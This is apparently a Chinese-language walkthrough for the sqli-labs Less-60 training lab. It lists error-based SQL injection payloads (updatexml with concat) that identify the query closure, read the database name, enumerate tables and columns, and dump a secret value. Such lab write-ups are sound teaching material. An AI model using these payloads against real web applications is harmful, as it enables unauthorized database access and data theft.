 ```yaml
---
title: Less - 60
date: 2023-03-24T19:48:45Z
lastmod: 2023-03-24T20:03:28Z
---
```


# Less - 60

---

# 通关教程

---

## 1、判断闭合

---

```http
http://192.168.23.128/sqli-labs/Less-59/?id=1"
```

​​![image](assets/image-20230324195430-2glg20n.png)​​

根据错误信息判断闭合方式为")–+，并且为字符型注入。因为有完整错误信息，所以这里我们使用报错注入攻击。

---

## 2、查看当前库

---

```http
http://192.168.23.128/sqli-labs/Less-60/?id=1") and updatexml(1,concat(0x7e,(database()),0x7e),1)--+
```

​![image](assets/image-20230324195509-40suajr.png)​

---

## 3、查看challenges库下的所有表

---

```http
http://192.168.23.128/sqli-labs/Less-60/?id=1") and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='challenges'),0x7e),1)--+
```

​​![image](assets/image-20230324200046-h9j757s.png)​​

---

## 4、查看tdi4tfrpjh表下的所有字段

---

```http
http://192.168.23.128/sqli-labs/Less-60/?id=1") and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='tdi4tfrpjh'),0x7e),1)--+
```

​​![image](assets/image-20230324200143-aegjt74.png)​​

---

## 5、查看secret_3F2R字段下的值

---

```http
http://192.168.23.128/sqli-labs/Less-60/?id=1") and updatexml(1,concat(0x7e,(select group_concat(secret_3F2R) from challenges.tdi4tfrpjh),0x7e),1)--+
```

​![image](assets/image-20230324200301-ydriab2.png)​

​![image](assets/image-20230324200328-h4y32j8.png)​
